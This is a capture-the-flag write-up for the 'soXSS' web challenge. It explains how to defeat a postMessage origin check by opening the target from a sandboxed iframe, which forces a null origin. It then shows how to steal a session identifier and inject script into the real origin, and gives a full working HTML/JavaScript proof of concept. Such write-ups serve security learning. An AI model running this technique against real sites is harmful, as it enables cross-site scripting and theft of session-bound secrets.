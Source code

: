 ## soXSS

![2022-04-07_01-54](https://user-images.githubusercontent.com/59454895/162093274-f54f182c-1dae-4f29-98ce-a7e1792f40fd.png)

## Let's begin

The first thing that can be noticed in the challenge is the use of post-messages and also the use of dompurify ( The latest version of the library was in use, so we couldn't bypass DomPurify without having a 0day ), as you can see from this screen:

![2022-04-07_02-01](https://user-images.githubusercontent.com/59454895/162093835-fd21e646-42a8-4395-b241-62196c4346ec.png)


Furthermore, at the following link (https://so-xss.terjanq.me/iframe.php/?source) it is possible to notice another part of the code, here the goal is very straightforward, the highlighted condition needs to be bypassed in order to reach the sink and execute XSS.

![2022-04-07_02-07](https://user-images.githubusercontent.com/59454895/162094500-690c045b-eaf3-44e0-bee3-82b866bf9d34.png)

The functioning of this part of the code is very clear, a listener event was used in order to check that the source and the identifier are not different, it's also important to say that the identifier is stored in an user's session.

First of all it was necessary to find a way to bypass this check ```e.origin !== window.origin```, After hitting my head a bit I found this thread on StackOverflow that really helped me a lot (https://stackoverflow.com/questions/55451493/what-is-window-origin,  https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-sandbox), apparently if we embed the iframe via ```<iframe src="https://so-xss.terjanq.me/iframe.php" sandbox>``` we can force the ```null``` origin.

Now another problem arises, as the page cannot be embedded inside an iframe because there was the flag ```X-Frame-Options: SAMEORIGIN```. It means that the page can only be displayed in a frame on the same origin as the page itself. 

### There is still hope

One important feature proved very important to overcome this problem, all windows opened from sandbox iframe inherit the sandbox flag, as documentated here: https://www.w3.org/TR/2010/WD-html5-20100624/the-iframe-element.html.
It means that we don't need to put the page inside an iframe, we can just created a sandbox iframe and use ```window.open``` inside it, like this:
```javascript
<iframe id=f sandbox="allow-scripts allow-top-navigation allow-forms allow-modals allow-popups" srcdoc="<button onclick=run()>click me 1</button><script>
  function run() {
    var win = window.open('https://so-xss.terjanq.me/iframe.php')
    setTimeout(() => {
      win.postMessage({
            identifier: 'abc',
            type: 'render',
            body: `<img src=x onerror=opener.top.postMessage({identifier},'*')>`,
        }, '*');
    }, 2000)
  }
</script>"></iframe>
```
In this way the newly opened window inherit the sandbox flag and his origin will become null. Just to be more clear, it means that the iframe with the ```sandbox``` attribute and the window for iframe.php (which is accessible by the variable win) share the same origin null.
Now another issue appears, The page on iframe.php has the origin "null", so we can't access any resources on the origin ```so-xss.terjanq.me``` and the rules says that we need to execute xss on that origin.

This is where the parameter ```identifier``` comes into play, because it's possible to open ```https://so-xss.terjanq.me/iframe.php``` and send XSS with stolen identifier so the origin is ```so-xss.terjanq.me```.

This is the final poc :
```javascript
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>test</title>
  </head>
  <body>
    <iframe id=f sandbox="allow-scripts allow-top-navigation allow-forms allow-modals allow-popups" srcdoc="<button onclick=run()>click me 1</button><script>
      function run() {
        var win = window.open('https://so-xss.terjanq.me/iframe.php')
        setTimeout(() => {
          win.postMessage({
                identifier: 'abc',
                type: 'render',
                body: `<img src=x onerror=opener.top.postMessage({identifier},'*')>`,
            }, '*');
        }, 2000)
      }
    </script>"></iframe><button onclick="run()">click me 2</button>
    <script>
      var realWin
      var identifier

      function send() {
        if (!realWin) {
          setTimeout(send, 500)
          return
        }

        // give it some time to load
        setTimeout(() => {
          realWin.postMessage({
            identifier,
            type: 'render',
            body: `<img src=x onerror=alert(origin)>`,
          }, '*');
        }, 1000)
        
      }
      onmessage = (e) => {
        if (e.data && e.data.identifier) {
          identifier = e.data.identifier
          console.log('identifier:', identifier)
          send()
        }
      }
      function run() {
        realWin = window.open('https://so-xss.terjanq.me/iframe.php')
      }

    </script>
  </body>
</html> 
```
To resume :

1) Open https://so-xss.terjanq.me/iframe.php from a sandboxed iframe, so in this way the newly opened window inherit the sandbox flag and his origin will become null.
2) Open https://so-xss.terjanq.me/iframe.php and send the XSS with the stolen identifier, in this way the origin will be ```so-xss.terjanq.me.```

To conclude this writeup I would like to thank Huli who helped me with the writing of the poc, I also hope someone will find this writeup useful and learn something new.

